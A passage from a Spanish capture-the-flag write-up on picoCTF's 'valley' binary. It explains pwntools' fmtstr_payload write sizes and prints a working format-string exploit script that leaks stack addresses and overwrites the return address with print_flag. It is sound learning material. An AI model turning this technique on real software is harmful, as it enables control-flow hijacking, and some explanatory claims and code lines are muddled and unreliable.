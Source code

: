 Si nos fijamos bien, nuestra función `fmtstr_payload` necesita 3 parámetros, el ultimo de ellos controla el tamaño de las escrituras del payload.

Hay 3 tipos de tamaño de escritura para nuestra función:

* Byte
* Short
* Int

En el orden que he puesto, cuanto mas arriba, el payload ocupará mas espacio pero habrá mas precisión en las direcciones. Si usamos `short` tal vez de `byte` el tamaño del payload será menor pero su precisión también. Como es nuestra única alternativa vamos a intentarlo:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./valley")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
    else:
        r = remote("shape-facility.picoctf.net", 56161)

    return r


def main():
    r = conn()

    offset_input = 6
    
    offset_piebase = 0x1413 # Calculo del offset
    info(f'Offset PIE base: {hex(offset_piebase)}')

    r.sendlineafter(b':', b'%20$p %21$p') # Conseguimos el leak de la posición 20 y 21 de la pila

    leaked_line = r.recvline_contains(b':').decode().strip()
    
    leaked_return_address = int(leaked_line.split()[-2], 16) - 0x8 # Calculo de la dirección de retorno
    info(f'Leaked Return Address: {hex(leaked_return_address)}')
    leaked_stack_address = int(leaked_line.split()[-1], 16)
    info(f'Leaked Return Address: {hex(leaked_return_address)}')
    info(f'Leaked Stack Address: {hex(leaked_stack_address)}')

    base_binario = leaked_stack_address - offset_piebase # Calculo de la base del binario, leak de la dirección menos el offset calculado
    info(f'Base del binario: {hex(base_binario)} ({hex(leaked_stack_address)} - {hex(offset_piebase)})')
    exe.address = base_binario # Indicamos a pwntools cual es la dirección del binario (esto sirve para poder usar la función symbols aunque haya PIE)
    valor = {leaked_return_address: exe.symbols.print_flag} # Diccionario que contiene DIRECCIÓN VARIABLE A MODIFICAR: NUEVO VALOR
    payload = fmtstr_payload(offset_input, valor, write_size='byte')
    r.sendline(payload)
    info(f'Longitud Payload: {len(payload)}')
```